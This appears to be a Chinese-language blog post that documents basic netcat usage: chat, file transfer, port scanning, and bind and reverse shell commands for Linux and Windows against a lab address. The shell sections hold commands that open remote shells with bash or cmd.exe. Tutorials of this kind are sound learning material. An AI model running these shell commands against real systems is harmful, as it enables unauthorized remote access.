```yaml
---
layout: post
title:  "那什麼鬼 -- netcat 基礎用法"
date:   2021-10-06 09:12:10 +0800
author: "summer"
categories: 那什麼鬼
header-style: text
tags:
  - 那什麼鬼
  - linux
  - netcat
  - 網路
---
```

netcat 是一個多功能的網路工具，紀錄一下他的常用功能

## 即時對談

在要當 server 的機器 192.168.67.128 上執行

```bash
nc -l -p 12345
```

在 client 端執行

```bash
nc 192.168.67.128 12345
```

就能有簡單的交談功能

## 傳送檔案

在要接收檔案的機器上執行

```bash
nc -l -p 12345 > out.file
```

在要傳送檔案的機器上執行

```bash
nc -N 192.168.67.128 < out.file
```

-N 是讀到時 EOF 結束連線

或

```bash
nc -w 3 192.168.67.128 < out.file
```

-w 是設定 timeout 傳送完成後 3 三秒中止連線

如果要傳送多檔案，可以打包後再傳

## port scan

```bash
$nc -z -v -n 192.168.67.128 21-25
```

這會掃描目標位置的 21-25 port

-z 為不帶資料
-v 為顯示詳細
-n 為不進行解析

## get shell

如果你的 nc 沒有 -c -e ，可以安裝 nmap 使用其中的 ncat ，指令是一樣的

-c 為執行命令
-e 為執行程式

### linux

server

```bash
nc -lp 12334 -c bash
```

client

```bash
nc 192.168.67.128 12334
```

### windows

server

```bash
nc -lp 12334 -e cmd.exe
```

client

```bash
nc 192.168.67.128 12334
```

## Reverse Shell

### linux

server

```bash
nc -lp 12334
```

client

```bash
nc 192.168.67.128 12334 -c bash
```

### windows

server

```bash
nc -lp 12334
```

client

```bash
nc 192.168.67.128 12334 -e cmd.exe
```
